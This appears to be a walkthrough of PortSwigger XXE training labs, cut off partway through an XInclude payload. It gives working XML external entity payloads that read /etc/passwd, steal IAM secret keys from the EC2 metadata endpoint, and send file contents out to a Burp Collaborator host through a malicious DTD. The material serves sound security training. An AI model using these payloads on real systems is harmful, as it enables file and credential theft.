 **Lab: Exploiting XXE using external entities to retrieve files**

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.

Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Insert the following external entity definition in between the XML declaration and the stockCheck element:

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
Replace the productId number with a reference to the external entity: &xxe;. The response should contain "Invalid product ID:" followed by the contents of the /etc/passwd file.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/4b659553-dd2e-4d5c-841a-1cab3610b62a)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/a68a9acb-e875-4d12-87af-d7e5c8796230)

**Lab: Exploiting XXE to perform SSRF attacks**

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Insert the following external entity definition in between the XML declaration and the stockCheck element:

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
Replace the productId number with a reference to the external entity: &xxe;. The response should contain "Invalid product ID:" followed by the response from the metadata endpoint, which will initially be a folder name.
Iteratively update the URL in the DTD to explore the API until you reach /latest/meta-data/iam/security-credentials/admin. This should return JSON containing the SecretAccessKey.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/d38497ba-f4c7-4125-872a-63a90a358418)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/b6f0cd29-de9b-41f8-9496-324addf1e1b4)

**Lab: Blind XXE with out-of-band interaction**

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:

<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
Replace the productId number with a reference to the external entity:

&xxe;
Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/8afc8214-9a2e-4d83-b374-cf2077bb0594)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/1df95350-7428-4192-b893-2aa38c5ee0d8)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/708a1c40-e077-46f2-9db4-6a5642732af1)

**Lab: Blind XXE with out-of-band interaction via XML parameter entities**

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:

<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/8df209cf-4144-4121-986f-fa9f7eb59494)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/73f1997e-a9ff-4226-ac36-6039d0a88b6a)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/94269059-7387-4362-a69f-e26947ca38a8)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/12bc1db7-bc89-4837-a888-298821baa798)

**Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD**

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.

Using Burp Suite Professional, go to the Collaborator tab.
Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
Place the Burp Collaborator payload into a malicious DTD file:

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL.
You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Insert the following external entity definition in between the XML declaration and the stockCheck element:

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
Go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again.
You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the /etc/hostname file.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/1f4d0bee-a930-4eff-b4d9-decb8cddbd9a)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/dd67acd8-378e-4809-b56c-1e5b2f61d286)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/8bccc266-40c5-4318-a957-d4899d818712)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/a812d4f2-ec14-40c6-afa0-21df3c2bae30)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/eec5b5f6-6fa2-43d5-80a9-608676972f7c)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/55c1342e-23d2-4205-89f2-0d73c0931f2c)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/c5281175-2a58-4266-bac1-e9ba8bab0bc6)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/41731873-a46d-4ab5-abb9-0073d67d1c7c)

**Lab: Exploiting blind XXE to retrieve data via error messages**

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the /etc/passwd file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

Click "Go to exploit server" and save the following malicious DTD file on your server:

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
When imported, this page will read the contents of /etc/passwd into the file entity, and then try to use that entity in a file path.

Click "View exploit" and take a note of the URL for your malicious DTD.
You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Insert the following external entity definition in between the XML declaration and the stockCheck element:

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
You should see an error message containing the contents of the /etc/passwd file.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/9cc4030b-36e0-4db9-b074-d0fb75f02743)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/149116f0-4048-410c-bd71-67312ef4efb1)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/5843d19f-7aea-4a92-93b0-c717998d9b0d)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/868353a3-b7ed-4c08-8818-fe6849bd76b3)

**Lab: Exploiting XInclude to retrieve files**

This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.

Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.

To solve the lab, inject an XInclude statement to retrieve the contents of the /etc/passwd file.

Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Set the value of the productId parameter to:

<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" 

